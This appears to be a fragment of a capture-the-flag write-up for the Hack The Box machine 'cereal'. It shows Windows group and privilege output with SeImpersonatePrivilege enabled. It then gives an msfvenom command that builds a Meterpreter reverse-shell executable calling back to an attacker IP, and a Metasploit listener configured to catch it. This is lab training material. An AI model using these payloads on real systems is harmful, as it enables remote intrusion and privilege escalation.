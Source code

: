 ````cmd
==================================== ================ =============================================================== ==================================================
Everyone                             Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                   Well-known group S-1-5-3                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113                                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568                                                    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
IIS APPPOOL\source.cereal.htb        Well-known group S-1-5-82-1091461672-2110406625-1707532520-1965434010-2231625233 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10                                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

````

Let's create a `msfvenom` payload first.

````bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.200 lport=8002 -b "\x00\x0a" -a x86 --platform windows -f exe -o trustme.exe
````

create a meterpreter listener
````bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set Lhost 10.10.14.200
set lport 8002
run
````
